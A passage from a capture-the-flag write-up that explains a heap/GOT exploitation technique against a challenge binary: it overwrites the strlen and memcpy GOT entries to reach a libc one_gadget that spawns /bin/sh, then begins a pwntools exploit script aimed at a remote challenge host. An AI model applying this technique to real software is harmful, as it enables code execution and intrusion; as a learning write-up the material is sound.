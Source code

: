 if will fullfill the constraints for this onegadget:

```python
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

so I put this gadget `__GI___printf_fp_l+5607` in `strlen` GOT entry,  and the desired onegadget in `memcpy` GOT entry

then when `__libc_message` try to spit out an error message, it will jump to our gadget, that will clear register, and will jump to the onegadget (via `_memcpy`)

and guess what? We have exited from code execution inferno... 😅

![](./pics/gotshell.gif)

here is the exploit so:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("bfc")
libc = ELF("./libc.so.6")		# libc 2.35 from ubuntu 22.04

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "119.13.89.159", "3301"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])
```
